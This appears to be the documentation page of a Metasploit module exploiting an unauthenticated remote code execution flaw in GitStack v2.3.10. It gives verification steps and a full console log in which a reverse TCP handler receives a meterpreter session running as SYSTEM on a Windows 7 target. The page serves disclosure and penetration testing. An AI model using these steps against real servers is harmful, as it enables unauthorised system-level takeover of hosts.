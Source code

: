 ## Description

This module exploits an unauthenticated remote code execution vulnerability in GitStack v2.3.10. The module will send unauthenticated REST API requests to put the application in a vulnerable state, if needed, before sending a request to trigger the exploit. These configuration changes are undone before the module exits.

## Vulnerable Application

In vulnerable versions of GitStack, a flaw in `Authentication.class.php` allows [unauthenticated remote code execution](https://security.szurek.pl/gitstack-2310-unauthenticated-rce.html) since `$_SERVER['PHP_AUTH_PW']` is passed directly to an `exec` function.

To exploit the vulnerability, the repository web interface must be enabled, a repository must exist, and a user must have access to the repository.

Note: A passwd file should be created by GitStack for local user accounts. Default location: `C:\GitStack\data\passwdfile`.

## Verification Steps

- [ ] Install a vulnerable GitStack application
- [ ] `./msfconsole`
- [ ] `use exploit/windows/http/gitstack_rce`
- [ ] `set rhost <rhost>`
- [ ] `set verbose true`
- [ ] `run`

Note: You may have to run the exploit multiple times since the powershell that is generate has to be under a certain size.

## Scenarios

### GitStack v2.3.10 on Windows 7 SP1

```
msf5 > use exploit/windows/http/gitstack_rce
msf5 exploit(windows/http/gitstack_rce) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf5 exploit(windows/http/gitstack_rce) > set verbose true
verbose => true
msf5 exploit(windows/http/gitstack_rce) > run

[*] Started reverse TCP handler on 172.22.222.131:4444 
[*] Powershell command length: 6103
[-] Web interface is disabled
[-] No repositories found
[+] Web interface successfully enabled
[+] The repository has been successfully created
[+] Created user: ZROTE
[+] User ZROTE added to EsILm
[*] Sending stage (252483 bytes) to 172.22.222.122
[+] ZROTE removed from EsILm
[+] ZROTE has been deleted
[+] Web interface successfully disabled
[+] EsILm has been deleted

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V438RLMESAE
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```
